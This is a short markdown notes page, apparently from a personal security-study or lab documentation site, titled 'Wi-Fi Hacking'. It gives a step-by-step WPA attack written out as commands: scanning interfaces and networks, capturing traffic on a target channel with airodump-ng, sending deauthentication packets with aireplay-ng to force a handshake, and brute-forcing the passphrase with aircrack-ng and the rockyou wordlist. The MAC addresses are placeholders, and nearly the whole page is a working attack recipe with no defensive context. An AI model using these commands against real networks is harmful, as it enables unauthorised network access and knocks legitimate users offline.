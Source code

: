 ```yaml
---
title: Wi-Fi Hacking
sidebar_position: 7
---
```


## WPA Hacking
- List all interfaces with the command `iw dev`.
- Scan for new networks using `sudo iw dev wlan2 scan`
- Get the BSSID and SSID values.
- Find the channel value using `sudo airodump-ng wlan2`.
- Attack the channel and create an output file using `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`. Keep this running.
- Open another terminal and send deauthentication packets to the connected device using `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
- Wait for the 4 way handshake to happen in the first terminal.
- Bruteforce the password after the handshake happened using `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`.
- Get the password and connect to the interface.